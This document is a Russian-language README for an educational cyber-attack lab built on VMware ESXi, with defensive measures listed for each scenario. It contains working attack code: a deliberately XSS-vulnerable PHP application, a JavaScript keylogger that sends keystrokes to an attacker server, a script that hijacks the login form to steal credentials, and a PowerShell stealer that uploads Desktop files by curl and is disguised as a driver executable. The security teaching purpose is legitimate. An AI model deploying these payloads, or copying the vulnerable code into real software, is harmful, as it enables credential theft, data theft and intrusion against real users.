<h1 align="center">Stand ESXi for Cyber Attacks</h1>
<p align="center">
  <em>Дипломная работа (2025) по направлению «Информационная безопасность»</em><br>
  <strong>Практический стенд на базе VMware ESXi для моделирования и отработки кибератак, сетевых атак с описанием защитных мер</strong>
</p>

<p align="center">
  
  
  
  
  <br>
  
  
  
  
</p>

---

## 🧭 О проекте

**Stand ESXi for Cyber Attacks** — это учебно-практический стенд на базе гипервизора **VMware ESXi**, предназначенный для безопасного моделирования реальных атак, с описанием защитных мер.  
Стенд используется для обучения, проверки гипотез, отработки реагирования и анализа инцидентов в контролируемой среде.

**Период разработки:** апрель – июнь 2025 года.  
**Ключевые направления:** Blue Team, Red Team, тестирование уязвимостей, автоматизация развертывания и чуть-чуть сети ^^.

---

## 🔍 Common Weakness Enumeration

В ходе работы были реализованы и изучены следующие сценарии атак:

1. **Keylogger (CWE-79)** — внедрение JS через XSS для перехвата нажатий клавиш.
2. **Phishing (CWE-79)** — подмена формы логина через XSS и кража учётных данных.
3. **Stealer (CWE-200)** — эмуляция похищения персональных и корпоративных данных.
4. **Docker Escape (CVE-2022-0492)** — выход за пределы контейнера с доступом к хосту.
5. **DHCP Starvation & Rogue DHCP (CWE-346)** — исчерпание пула адресов и раздача ложных параметров для MITM.
6. **ARP Spoofing (CWE-345)** — подмена ARP-записей для перехвата трафика.
7. **Brute-force (CWE-307)** — перебор паролей для несанкционированного доступа.
8. **QRLJacking (CWE-285)** — захват сессии через подмену QR-кода.

---

## 🎯 Цели проекта

Разработать программный стенд для проведения киберучений по защите инфраструктуры организации от кибератак. Стенд позволит моделировать актуальные угрозы и отрабатывать методы защиты, что повысит готовность персонала к оперативному выявлению и нейтрализации потенциальных угроз.

---

## 🏗 Состав и формирование стенда

**Аппаратная база:** сервер Supermicro  
- CPU: 2× Intel Xeon Silver 4216 (2.10 GHz)  
- RAM: 256 GB DDR4  
- NIC: 2× Intel Ethernet X722  
- SSD: 4 ТБ  
- HDD: 2 ТБ  
- RAID: MegaRAID SAS + Lewisburg SATA  

**Платформа:** VMware ESXi (основной гипервизор)  
На ESXi развёрнут вложенный ESXi (20vCPU, 30 GB, 500 GB) как учебный стенд. В нём создано **8 виртуальных машин** и **1 виртуальный маршрутизатор**.

---

### Виртуальные машины

1. **Debian 12** — веб-сервер и СУБД  
   - Docker, PHP, Nginx/Apache, PostgreSQL, pgAdmin  
   - Тестовое приложение с регистрацией, авторизацией, ЛК  

2. **Windows 10** — рабочая станция пользователя  
   - Имитация перехода по фишинговым/XSS-ссылкам, QRLJacking  

3. **Kali Linux** — сетевые атаки  
   - ARP spoofing, brute-force  

4. **Kali Linux** — атаки на DHCP  
   - DHCP Starvation, Rogue DHCP + MITM  

5. **Debian 12** — уязвимый веб-сайт (мишень)  
   - Docker, веб-приложение для тестов атак  

6. **Debian 12** — сайт для DHCP-атак (мишень)  
   - Docker, сервисы для перехвата  

7. **Debian 12** — «портал злоумышленника»  
   - Вредоносные скрипты, приём данных  

8. **Ubuntu** — тест QRLJacking и Docker Escape  

9. **MikroTik RouterOS** — маршрутизатор/цель атаки  
   - DHCP-сервер, OSPF, жертва DHCP-атак  

---

### На момент защиты, системные требования на ВМ были:

| ВМ | CPU | RAM | HDD | Примечания |
|----|-----|-----|-----|------------|
| Debian (web/db) | 2 vCPU | 2 GB | 30 GB | Docker, PostgreSQL |
| Windows 10 | 2 vCPU | 4 GB | 40 GB | GUI, браузеры |
| Kali Linux (сети) | 2 vCPU | 2 GB | 40 GB | атаки L2/L3 |
| Kali Linux (DHCP) | 2 vCPU | 2 GB | 40 GB | MITM DHCP |
| Debian (мишень) | 2 vCPU | 2 GB | 30 GB | веб-приложение |
| Debian (DHCP мишень) | 2 vCPU | 2 GB | 30 GB | тест DHCP |
| Debian (злоумышленник) | 2 vCPU | 2 GB | 30 GB | сбор данных |
| Ubuntu | 2 vCPU | 2 GB | 30 GB | Docker Escape, QRLJacking |
| MikroTik | 1 vCPU | 1 GB | 8 GB | RouterOS |

---

**Итог:** распределение ролей и ресурсов позволяет воспроизводить атаки от L2-сетей до веб-уровня и проверять многоуровневую защиту в условиях, приближённых к реальным.

---

## ⚠️ Дисклеймер

Все сценарии выполнялись в изолированной тестовой среде в учебных целях.  
Применение подобных техник в реальной инфраструктуре без разрешения является нарушением закона.

## 1 🖥 Атака с использованием вредоносного кода для перехвата ввода с клавиатуры

**Межсайтовый скриптинг (Cross-Site Scripting, XSS)** — это класс уязвимостей веб-приложений, при котором злоумышленник внедряет произвольный клиентский код в страницу, отображаемую в браузере жертвы. Такой код исполняется в контексте доверенного домена и получает те же права, что и легитимный скрипт сайта: доступ к DOM, cookies сессии, токенам аутентификации, а также полям ввода.

В данном сценарии демонстрируется уязвимость **CWE-79**, позволяющая внедрить вредоносный JavaScript-код, регистрирующий нажатия клавиш пользователя и отправляющий их злоумышленнику.

---

### 🔹 Лабораторный стенд

**Таблица 1 — Конфигурация стенда для атаки keylogger**

| IP-адрес / Порт     | Роль                | Описание |
|---------------------|--------------------|----------|
| `192.168.0.69:2222` | Веб-сервер          | Сайт организации: форма регистрации, авторизации и личный кабинет |
| `192.168.0.69:1111` | pgAdmin4            | Веб-интерфейс администрирования PostgreSQL |
| `192.168.0.69:5432` | PostgreSQL          | База данных сайта |
| `192.168.0.89`      | Клиент *(Windows 10)*| Жертва атаки — открывает ссылку с XSS-payload |
| `192.168.0.114:3333`| Злоумышленник *(Debian)*| Хостинг `keylogger.php` и приём данных (`keylog.txt`) |

---

💡 *Стенд развёрнут в локальной сети с использованием Docker Compose и виртуальных машин.*  
Веб-приложение реализовано на PHP.

---

### 🛠 Этап 1 — Подготовка окружения

> Разворачиваем серверную часть: веб‑приложение на PHP + PostgreSQL в Docker. Этот этап завершится работоспособным сайтом (порт `2222`) и pgAdmin (порт `1111`). В коде намеренно оставлена уязвимость (точки XSS), используемая далее для keylogger‑сценария.

---

## 🔧 Архитектура и роли

* **php (Apache + PHP)** — уязвимое веб‑приложение (порт `2222 → 80`).
* **db (PostgreSQL)** — БД приложения (порт `5432`).
* **pgadmin (pgAdmin4)** — GUI администрирования БД (порт `1111 → 80`).

**Сегмент сети**: DMZ (внутренние связи контейнеров — через Docker‑сеть).
**Где уязвимость:** неконтролируемый вывод параметра `payload` в `login.php` и `dashboard.php` (отсутствует экранирование).

---

## 📦 Cерверная часть

```yaml
version: '3.8'

services:
  db:
    image: postgres:latest
    container_name: postgres_db
    environment:
      POSTGRES_USER: 163justIneffable
      POSTGRES_PASSWORD: P@ssw0rd
      POSTGRES_DB: anubis
    volumes:
      - db_data:/var/lib/postgresql/data
    ports:
      - "5432:5432"

  pgadmin:
    image: dpage/pgadmin4:latest
    container_name: pgadmin
    environment:
      PGADMIN_DEFAULT_EMAIL: *mail*
      PGADMIN_DEFAULT_PASSWORD: P@ssw0rd!
    ports:
      - "1111:80"
    depends_on:
      - db

  php:
    build:
      context: .
      dockerfile: Dockerfile
    volumes:
      - ./html:/var/www/html
    ports:
      - "2222:80"
    depends_on:
      - db

volumes:
  db_data:
```

### Dockerfile

```dockerfile
FROM php:apache

RUN apt-get update && \
    apt-get install -y libpq-dev && \
    docker-php-ext-install pgsql pdo_pgsql
```

> *Примечание:* базовый образ `php:apache` уже содержит Apache с конфигурацией виртуального хоста `/var/www/html`.

---

## 🗂 Структура проекта

```
project-root/
├─ docker-compose.yml
├─ Dockerfile
└─ html/
   ├─ index.php
   ├─ register.php
   ├─ login.php
   ├─ dashboard.php
   ├─ logout.php
   └─ db.php
```

Создаём директорию под код:

```bash
mkdir -p html
```

---

## 💾 PHP‑приложение (уязвимые точки отмечены)

### `html/db.php`

```php
<?php
// db.php — подключение к PostgreSQL через PDO
$host = 'db';         // имя сервиса БД из docker-compose
$port = '5432';
$db   = 'anubis';
$user = '163justIneffable';
$pass = 'P@ssw0rd';

$dsn = "pgsql:host=$host;port=$port;dbname=$db;";

try {
    $pdo = new PDO($dsn, $user, $pass, [PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION]);
} catch (PDOException $e) {
    echo "Ошибка подключения к БД: " . $e->getMessage();
    exit();
}
```

### `html/index.php`

```php
<?php
session_start();
?>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Главная страница</title>
</head>
<body>
    <h1>Добро пожаловать на сайт</h1>
    <p>
      <a href="register.php">Регистрация</a> |
      <a href="login.php">Вход</a>
    </p>
    <?php
      if(isset($_SESSION['username'])) {
          echo "<p>Привет, " . $_SESSION['username'] . "!</p>";
          echo '<p><a href="dashboard.php">Перейти в личный кабинет</a></p>';
      }
    ?>
</body>
</html>
```

### `html/register.php`

```php
<?php
session_start();
require 'db.php';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];
    $bio = $_POST['bio'];

    // ⚠️ Демонстрационно: без хэширования (уязвимо по CWE-79)
    $sql = "INSERT INTO users (username, password, bio) VALUES (:username, :password, :bio)";
    $stmt = $pdo->prepare($sql);
    $stmt->bindValue(':username', $username);
    $stmt->bindValue(':password', $password);
    $stmt->bindValue(':bio', $bio);

    try {
        $stmt->execute();
        $_SESSION['username'] = $username;
        header("Location: dashboard.php");
        exit();
    } catch (PDOException $e) {
        echo "Ошибка при регистрации: " . $e->getMessage();
    }
}
?>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Регистрация</title>
</head>
<body>
    <h1>Регистрация</h1>
    <form method="POST">
        <label>Имя пользователя:</label><br>
        <input type="text" name="username" required><br><br>

        <label>Пароль:</label><br>
        <input type="password" name="password" required><br><br>
        
        <label>О себе (bio):</label><br>
        <textarea name="bio" rows="4" cols="50" placeholder="Расскажи о себе"></textarea><br><br>
        
        <input type="submit" value="Зарегистрироваться">
    </form>
    <p>Уже зарегистрированы? <a href="login.php">Войти</a></p>
</body>
</html>
```

### `html/login.php`

```php
<?php
session_start();
require 'db.php';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $sql = "SELECT * FROM users WHERE username = :username";
    $stmt = $pdo->prepare($sql);
    $stmt->bindValue(':username', $username);
    $stmt->execute();
    $user = $stmt->fetch(PDO::FETCH_ASSOC);

    // ⚠️ Демонстрационно: сравнение с открытым текстом
    if ($user && $user['password'] === $password) {
        $_SESSION['username'] = $username;
        header("Location: dashboard.php");
        exit();
    } else {
        $error = "Неверное имя пользователя или пароль";
    }
}

// ⚠️ Уязвимость XSS: вывод без экранирования
if (isset($_GET['payload'])) {
    echo $_GET['payload'];
}
?>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Вход</title>
</head>
<body>
    <h1>Вход</h1>
    <?php if(isset($error)) { echo "<p style='color:red;'>" . $error . "</p>"; } ?>
    <form method="POST">
        <label>Имя пользователя:</label><br>
        <input type="text" name="username" required><br><br>
        
        <label>Пароль:</label><br>
        <input type="password" name="password" required><br><br>
        
        <input type="submit" value="Войти">
    </form>
    <p>Нет аккаунта? <a href="register.php">Зарегистрироваться</a></p>
</body>
</html>
```

### `html/dashboard.php`

```php
<?php
session_start();
require 'db.php';

if (!isset($_SESSION['username'])) {
    header("Location: login.php");
    exit();
}

$username = $_SESSION['username'];

// Обновление bio
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $newBio = $_POST['bio'] ?? '';
    $sql = "UPDATE users SET bio = :bio WHERE username = :username";
    $stmt = $pdo->prepare($sql);
    $stmt->bindValue(':bio', $newBio);
    $stmt->bindValue(':username', $username);
    $stmt->execute();
}

// Получение профиля
$sql = "SELECT * FROM users WHERE username = :username";
$stmt = $pdo->prepare($sql);
$stmt->bindValue(':username', $username);
$stmt->execute();
$user = $stmt->fetch(PDO::FETCH_ASSOC);

if (!$user) {
    header("Location: login.php");
    exit();
}
?>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Личный кабинет</title>
</head>
<body>
    <h1>Добро пожаловать, <?php echo htmlspecialchars($user['username']); ?>!</h1>

    <?php
    // ⚠️ Уязвимость XSS: вывод без экранирования
    if (isset($_GET['payload'])) {
        echo $_GET['payload'];
    }
    ?>

    <p><strong>О себе (bio):</strong> <?php echo $user['bio']; ?></p>

    <h2>Редактировать «О себе»</h2>
    <form method="POST">
        <textarea name="bio" rows="4" cols="50"><?php echo $user['bio']; ?></textarea><br>
        <input type="submit" value="Сохранить">
    </form>

    <p><a href="logout.php">Выйти</a></p>
</body>
</html>
```

### `html/logout.php`

```php
<?php
session_start();
session_destroy();
header("Location: index.php");
exit();
```

---

## 🗃 Инициализация БД (через pgAdmin или psql)

**Схема и таблица пользователей:**

```sql
CREATE TABLE IF NOT EXISTS users (
  id SERIAL PRIMARY KEY,
  username VARCHAR(64) UNIQUE NOT NULL,
  password VARCHAR(255) NOT NULL,
  bio TEXT DEFAULT ''
);
```
## В рамках демонстрации пароли в базе данных хранятся в открытом виде, очевидно, что так не должно быть, можно использовать, допустим, хеширования

**Регистрация с хэшированием пароля**
```
// Получаем пароль из формы
$password = $_POST['password'];

// Генерируем хэш с использованием алгоритма bcrypt
$passwordHash = password_hash($password, PASSWORD_BCRYPT);

// Сохраняем в БД
$sql = "INSERT INTO users (username, password_hash, bio) VALUES (:username, :password_hash, :bio)";
$stmt = $pdo->prepare($sql);
$stmt->bindValue(':username', $username);
$stmt->bindValue(':password_hash', $passwordHash);
$stmt->bindValue(':bio', $bio);
$stmt->execute();

```
**Авторизация с проверкой пароля**
```
$sql = "SELECT * FROM users WHERE username = :username";
$stmt = $pdo->prepare($sql);
$stmt->bindValue(':username', $username);
$stmt->execute();
$user = $stmt->fetch(PDO::FETCH_ASSOC);

if ($user && password_verify($password, $user['password_hash'])) {
    $_SESSION['username'] = $username;
    header("Location: dashboard.php");
    exit();
} else {
    $error = "Неверное имя пользователя или пароль";
}
```
**Таблица пользователей с безопасным хранением пароля**
```
CREATE TABLE IF NOT EXISTS users (
  id SERIAL PRIMARY KEY,
  username VARCHAR(64) UNIQUE NOT NULL,
  password_hash VARCHAR(255) NOT NULL,
  bio TEXT DEFAULT ''
);
```

> Через **pgAdmin** подключитесь к хосту `db:5432` (изнутри сети Docker) или к `localhost:1111` PgAdmin4 через браузер. Подключитесь БД `anubis`, затем выполните SQL для таблицы `users`.

---

## ▶️ Запуск и проверка

1. Собрать и запустить контейнеры:

   ```bash
   docker compose up -d --build
   ```
2. Проверить контейнере в режиме CLI
```bash
root@dock:~# docker ps -a
CONTAINER ID   IMAGE                   COMMAND                  CREATED          STATUS          PORTS
                            NAMES
404652693b31   dpage/pgadmin4:latest   "/entrypoint.sh"         42 minutes ago   Up 42 minutes   443/tcp, 0.0.0.0:1111->80/tcp, [::]:1111->80/tcp   pgadmin
312c834e57dc   test-xss-php            "docker-php-entrypoi…"   42 minutes ago   Up 42 minutes   0.0.0.0:2222->80/tcp, [::]:2222->80/tcp            test-xss-php-1
4e5491887cbc   postgres:latest         "docker-entrypoint.s…"   42 minutes ago   Up 42 minutes   0.0.0.0:5432->5432/tcp, [::]:5432->5432/tcp        postgres_db
root@dock:~#
```
3. Проверить доступность сервисов:

   * Приложение: `http://<ip>:2222`
   * pgAdmin: `http://<ip>:1111`
4. Зарегистрировать тестового пользователя и войти в **ЛК**.
5. Убедиться, что параметр `payload` отрисовывается *как есть*, например:

   ```
   http://<ip>:2222/login.php?payload=<script>alert('xss')</script>
   ```

### 🛠 Этап 2 — Сервер злоумышленника: контейнер для сбора нажатий клавиш

Назначение: принять `POST` от вредоносного JS и записывать нажатия клавиш в `keylog.txt`.

#### 📦 Docker Compose (машина злоумышленника)
```yaml
version: '3.8'

services:
  keylogger:
    build:
      context: .
      dockerfile: Dockerfile
    container_name: keylogger_server
    ports:
      - "3333:80"
    # (опционально) сохраняем логи на хосте:
    # volumes:
    #   - ./logs:/var/www/html
```
🧱 Dockerfile
```
FROM php:8.1-apache

# Копируем обработчик
COPY keylogger.php /var/www/html/keylogger.php

# Права на запись для файла логов
RUN chown -R www-data:www-data /var/www/html
```

🗃 keylogger.php

```
<?php // keylogger.php — скрипт для логирования нажатий клавиш 
if ($_SERVER['REQUEST_METHOD'] == 'POST') { 
  $key = isset($_POST['key']) ? $_POST['key'] : ''; 
  $log_entry = "Key: " . $key . " at " . date("Y-m-d H:i:s") . "\n";
  file_put_contents('keylog.txt', $log_entry, FILE_APPEND);
}
?>
```

keylogger.php – это минимальный PHP-обработчик, расположенный на машине злоумышленника. Скрипт принимает HTTP-запросы методом POST с полем key, формирует строку журнала вида Key: <символ> at <YYYY-MM-DD HH:MM:SS> и добавляет её в файл keylog.txt, файл создаётся автоматически при первом обращении. Тем самым каждое нажатие клавиши, перехваченное на стороне клиента, мгновенно фиксируется на сервере злоумышленника и может быть проанализировано позднее.

Фрагмент кода незашифрованного URL скрипта
```
<script>
document.onkeypress = function (e) { 
    var key = e.key
    console.log("Нажата клавиша: " + key
    fetch("http://192.168.0.114:3333/keylogger.php",
        method: "POST",
        headers: { "Content-Type": "application/x-www-form-urlencoded" },
        body: "key=" + encodeURIComponent(key
    });
};
</script>
```
document.onkeypress – этот оператор назначает глобальный обработчик события нажатия клавиши, благодаря чему скрипт реагирует на каждое действие пользователя на странице. В теле обработчика оператор var key = e.key извлекает непосредственно символ, введённый пользователем, что обеспечивает точность собираемых данных без дополнительной логики. В строке console.log ("Нажата клавиша:" + key) осуществляется вывод информации в консоль браузера, что позволяет проверять корректность работы кейлоггера на этапе тестирования без визуального вмешательства в интерфейс пользователя. Основная логика передачи данных реализована через функцию fetch, которая формирует и отправляет HTTP POST-запрос к серверному приёмнику keylogger.php, передавая параметр key в формате application/x-www-form-urlencoded. Это позволяет оперативно отправлять перехваченные символы на сервер злоумышленника для последующего анализа и хранения в лог-файле.
Пользователю достаточно перейти по этой ссылке, чтобы вредоносный JavaScript исполнился в контексте dashboard.php, а все нажатия клавиш начали уходить на сервер злоумышленника

**Фрагмент кода зашифрованной URL**

```
http://192.168.0.69:2222/dashboard.php?payload=%3Cscript%3Edocument.onkeypress%3Dfunction(e)%7Bvar%20key%3De.key%3Bconsole.log(%22%D0%9D%D0%B0%D0%B6%D0%B0%D1%82%D0%B0%20%D0%BA%D0%BB%D0%B0%D0%B2%D0%B8%D1%88%D0%B0%3A%20%22%20%2Bkey)%3Bfetch(%27http%3A%2F%2F192.168.0.114%3A3333%2Fkeylogger.php%27%2C%7Bmethod%3A%27POST%27%2Cheaders%3A%7B%27Content-Type%27%3A%27application%2Fx-www-form-urlencoded%27%7D%2Cbody%3A%27key%3D%27%2BencodeURIComponent(key)%7D)%3B%7D%3B%3C%2Fscript%3E
```

### 🎥 Видео-демонстрация атаки
[Смотреть видео в Google Drive](https://drive.google.com/file/d/1A0Uh9WIpx9KFe4nZnPX7zDC-92cl0SQB/view?usp=sharing)

## 🛡 Защита
Защита от XSS-кейлоггера в инфраструктуре организации со стороны пользователя:
-	использовать расширения браузера для блокировки скриптов (NoScript, uBlock Origin) и запрещать выполнение непроверенного JavaScript;
-	не переходить по подозрительным ссылкам и тщательно проверять адреса (особенно длинные URL с незнакомыми параметрами);
-	при работе с чувствительными данными вводить их в окне «Инкогнито» или на защищённых устройствах без массовых расширений;
-	регулярно очищать кэш и куки браузера, чтобы удалить потенциально внедрённые скрипты.
Защита от XSS-кейлоггера в инфраструктуре организации со стороны администратора:
-	внедрить на стороне веб-приложения надёжную фильтрацию и экранирование всех входящих данных, особенно тех, что попадают в HTML;
-	применять механизм CSP с списком доверенных источников скриптов;
-	использовать автоматизированное сканирование кода и динамическое тестирование (DAST) для своевременного выявления XSS-уязвимостей 


## 2 🎭 Атака методом подстановки поддельного экземпляра оригинала (Phishing через XSS)

Фишинговая атака в данном сценарии реализуется через комбинацию социальной инженерии и XSS-инъекции. Пользователю демонстрируется поддельная форма входа, полностью копирующая оригинал. Злоумышленник внедряет JavaScript-скрипт, который загружает реальную страницу авторизации и изменяет параметры формы так, чтобы введённые логин и пароль отправлялись не на сервер организации, а на сервер атакующего.

Таким образом, пользователь вводит свои учётные данные в привычный интерфейс, не подозревая, что в этот момент они перенаправляются злоумышленнику.

---

### 🔹 Лабораторный стенд

**Таблица 2 — Конфигурация стенда для фишинговой атаки**

| IP-адрес / Порт    | Роль                  | Описание |
|---------------------|----------------------|----------|
| `192.168.0.69:2222` | Веб-сервер            | Сайт организации: регистрация, авторизация, личный кабинет |
| `192.168.0.69:1111` | pgAdmin4              | Веб-интерфейс администрирования PostgreSQL |
| `192.168.0.69:5432` | PostgreSQL            | База данных сайта |
| `192.168.0.89`      | Клиент *(Windows 10)* | Жертва атаки — открывает фишинговую ссылку |
| `192.168.0.114:1111`| Злоумышленник *(Debian)* | Хостинг `phishing.js` и `steal.php`, приём логинов/паролей в `stolen_creds.txt` |

Машина с микросервисной архитектурой остается точно такая же
Стенд развёрнут в локальной сети с использованием Docker Compose и виртуальных машин. Веб-приложение состоит из набора PHP-скриптов:
- `register.php` — регистрация;  
- `login.php` — авторизация;  
- `dashboard.php` — личный кабинет;  
- `logout.php` — завершение сессии;  
- `db.php` — подключение к PostgreSQL.

---

### 🛠 Реализация атаки

Уязвимость **CWE-79 (XSS)** используется для внедрения мини-скрипта, который динамически подгружает оригинальную страницу входа и перенастраивает её форму. Введённые пользователем данные незаметно отправляются на сервер злоумышленника.

**phishing.js**
```javascript
fetch("login.php")
  .then(res => res.text())
  .then(data => {
    document.getElementsByTagName("html")[0].innerHTML = data;
    let form = document.getElementsByTagName("form")[0];
    if (form) {
      form.action = "http://192.168.0.114:1111/steal.php";
      form.method = "post";
    }
  });
```

Скрипт phishing.js загружает содержимое login.php, заменяет DOM текущего документа и подменяет атрибуты формы: action указывает на steal.php злоумышленника, метод передачи данных меняется на POST

**steal.php**
```php
<?php
// steal.php
// Принимаем POST-данные и записываем в файл
file_put_contents('stolen_creds.txt', print_r($_POST, true), FILE_APPEND);

// Можно отправить жертвe на какую-нибудь страницу (или показать "Ошибка")
// Выводим alert, затем сразу уводим пользователя на dashboard.php
echo "<script>
  alert('Error 404');
  window.location.href = 'http://192.168.0.69:2222/dashboard.php';
</script>";
?>
```

Скрипт steal.php:
- принимает данные методом POST;
- сохраняет их в stolen_creds.txt (режим дополнения);
- имитирует ошибку «Error 404» и перенаправляет пользователя в личный кабинет, чтобы замаскировать атаку.

Поднимаем контейнер

**docker-compose.yml**
```
version: '3.8'
services:
  steal:
    build: .
    container_name: phishing_server163
    ports:
      - "1111:80"
```
**Dockerfile**
```
FROM php:8.1-apache

# Копируем все файлы в директорию веб-сервера
COPY . /var/www/html/

# Меняем владельца, чтобы Apache мог читать/писать
RUN chown -R www-data:www-data /var/www/html
```

**Фрагмент кода зашифрованной URL**
```http://192.168.0.69:2222/dashboard.php?payload=<script src="http://192.168.0.114:1111/phishing.js"></script>```

После URL-кодирования подобную ссылку злоумышленник рассылает потенциальным жертвам — например, по почте или в корпоративном мессенджере, маскируя её под уведомление службы поддержки. Открыв ссылку, жертва видит обычную форму входа, но её данные уже перенаправляются на сервер атакующего и записываются в stolen_creds.txt.

### 🎥 Видео-демонстрация атаки
[Смотреть видео в Google Drive](https://drive.google.com/file/d/1HvmrUkwMfCHszaHEOqra8Ls6F6CKHad2/view?usp=sharing)

## 🛡 Защита
Защита от фишинговой атаки в инфраструктуре организации на стороне пользователя:
-	проверка адресной строки перед вводом учётных данных. Пользователь должен визуально подтверждать доменное имя и протокол HTTPS, особенно если ссылка пришла по почте или в мессенджере;
-	двухфакторная аутентификация (2FA). Даже в случае компрометации пароля злоумышленник не сможет войти без дополнительного токена;
-	использование менеджера паролей. Менеджер автоматически подставляет пароль только на легитимном домене и помогает выявить поддельный сайт;
-	фильтры почтового клиента и расширения антифишинга. Установка плагинов, блокирующих подозрительные сценарии XSS и предупреждающих о небезопасных ссылках, снижает риск перехода по вредоносному URL;
-	кибергигиена. Регулярное обучение персонала распознаванию фишинговых писем, проверке вложений и ссылок, соблюдению принципа «не доверяй – проверяй».
Защита от фишинговой атаки в инфраструктуре организации со стороны администратора:
-	content security policy (CSP). Жёсткая политика script-src и default-src позволяет загрузку скриптов только с доверенных доменов, блокуя подстановку внешних файлов вида http://192.168.0.114:1111/phishing.js;
-	фильтрация и экранирование пользовательского ввода. Валидация параметров URL и заголовков исключает внедрение произвольного JavaScript через GET‑параметры (payload);
-	HTTP‑заголовки безопасности. Включение X-Content-Type-Options: nosniff, X-Frame-Options: DENY, Referrer-Policy и Strict-Transport-Security ограничивает возможности XSS и фишинга;
-	антифишинговые шлюзы и почтовые фильтры. Настройка DMARC, SPF и DKIM уменьшает вероятность доставки поддельных писем от имени корпоративного домена [20];
-	мониторинг и журналирование. Логи веб‑сервера и IDS/IPS‑системы позволяют обнаружить аномальные запросы, содержащие кодированные <script>‑теги или частые обращения к steal.php;
-	обучение и регламенты реагирования. Регулярные киберучения с имитацией фишинг‑сценариев повышают готовность сотрудников службы ИБ к быстрому обнаружению и блокированию подобных атак.


## 3 📂 Атака методом сбора данных с помощью вредоносного ПО (Stealer)

Стиллер-атака демонстрирует эксплуатацию уязвимости **CWE-200**. Злоумышленник распространяет исполняемый файл, маскирующийся под безобидное приложение. После запуска он незаметно собирает файлы пользователя и отправляет их на удалённый сервер.  

---

### 🔹 Лабораторный стенд

**Таблица 3 — Конфигурация стенда для stealer-атаки**

| IP-адрес / Порт    | Роль                   | Описание |
|---------------------|-----------------------|----------|
| `192.168.0.89`      | Клиент *(Windows 10)* | Жертва — запускает вредоносный `.exe`, собирающий файлы |
| `192.168.0.114:2222`| Злоумышленник *(Debian)* | Хостинг `upload.php`, приём файлов в каталог `uploads/` |

---

### 🛠 Реализация атаки

1. На рабочей станции пользователя запускается подготовленный исполняемый файл.  
2. В фоне утилита рекурсивно обходит каталог **Desktop** и его подпапки.  
3. Все найденные документы упаковываются и поочерёдно отправляются методом `POST` на сервер злоумышленника.  
4. Серверный обработчик `upload.php` принимает файлы и сохраняет их в директории `uploads/`.  
5. Пользователь не замечает активности — процесс выполняется без визуальных признаков.  

---

### 🗃 Сервер злоумышленника

**upload.php**
```php
<?php
$targetDir = __DIR__ . "/uploads/";
if (!is_dir($targetDir)) {
    mkdir($targetDir, 0755, true);
}
if (isset($_FILES['file']) && $_FILES['file']['error'] === UPLOAD_ERR_OK) {
    $filename = basename($_FILES['file']['name']);
    $targetPath = $targetDir . $filename;

    if (move_uploaded_file($_FILES['file']['tmp_name'], $targetPath)) {
        echo "Файл успешно загружен: " . htmlspecialchars($filename);
    } else {
        echo "Ошибка при перемещении файла.";
    }
} else {
    echo "Файл не загружен или ошибка при загрузке.";
    if (isset($_FILES['file']['error'])) {
        echo "<br>Код ошибки: " . $_FILES['file']['error'];
    }
}
?>
```

Скрипт проверяет наличие директории uploads/, при необходимости создаёт её и сохраняет все переданные файлы. Входные данные очищаются функцией basename, чтобы предотвратить выход за пределы целевой папки.
📜 Вредоносный стиллер (PowerShell)

Для имитации работы используется PowerShell-скрипт, который собирает документы с рабочего стола и загружает их на upload.php.

```
$desktopPath = [Environment]::GetFolderPath("Desktop")
$files = Get-ChildItem -Path $desktopPath -File
foreach ($file in $files) {
    Write-Host "Sending file: $($file.Name)"
    & curl.exe -X POST -F "file=@$($file.FullName)" "http://192.168.0.114:2222/upload.php"
}
```

docker-compose.yml

```
version: '3.8'
services:
  stiller:
    image: php:8.1-apache
    container_name: still3r_s3rv3r
    volumes:
      - ./html:/var/www/html
    ports:
      - "2222:80"
```

Dockerfile

```
FROM php:8.1-apache
COPY . /var/www/html/
RUN chown -R www-data:www-data /var/www/html
```
⚙️ Подготовка исполняемого файла

Для маскировки стиллер компилируется в .exe с помощью модуля PS2EXE:

Install-Module ps2exe — установка инструмента;
Import-Module ps2exe — подключение модуля;
Set-ExecutionPolicy Bypass -Scope CurrentUser — снятие ограничений на выполнение;
Invoke-PS2EXE steal.ps1 Driver_i386.exe -iconFile "icon.ico" -title "i386 driver" — компиляция и маскировка под драйвер.
Исполняемый файл получает вид легитимного установщика драйвера, включая иконку и метаданные ресурса PE-файла.

Скрипт перебирает файлы в каталоге пользователя и через curl отправляет каждый из них на сервер злоумышленника.

🔍 Результаты

После запуска вредоносного файла пользователь не замечает активности (только кратковременное появление окна PowerShell).
Все документы с рабочего стола оказываются в каталоге uploads/ на сервере злоумышленника.
Атакующий получает централизованное хранилище похищенных данных.

### 🎥 Видео-демонстрация атаки
[Смотреть видео в Google Drive](https://drive.google.com/file/d/1wLKG23BzwuCy6y5UGEeZ6dRA3Zivy_Xa/view?usp=sharing)

## 🛡 Защита
Защита от стиллер-атак в инфраструктуре организации со стороны пользователя:
-	загружать программы только из проверенных источников; всегда проверять цифровую подпись и издателя перед запуском;
-	работать под учётной записью с ограниченными правами, не использовать локального администратора для повседневных задач;
-	держать антивирус и средства EDR/NGAV в актуальном состоянии; включить проверку загружаемых файлов и расширенную эвристику для PowerShell‑скриптов;
-	при получении файлов по почте или в мессенджерах проверять расширение, двойные расширения (*.pdf.exe) и «драйверы» из неожиданных источников должны вызывать подозрение;
-	активировать встроенный SmartScreen/Smart App Control (Windows 10/11) – он блокирует неподписанные или редкие исполняемые файлы;
-	создавать регулярные резервные копии ценных документов на внешние или сетевые ресурсы, чтобы исключить безвозвратную потерю данных.
Защита от стиллер-атак в инфраструктуре организации со стороны администратор:
-	внедрить Application Whitelisting (AppLocker, управление приложениями Windows Defender) – разрешать запуск только доверенных подписанных приложений; запретить исполнение файлов в пользовательских каталогах (Downloads, Desktop);
-	ограничить или перевести PowerShell в Constrained Language Mode; включить Script Block Logging и подключить его к SIEM для анализа подозрительных скриптов;
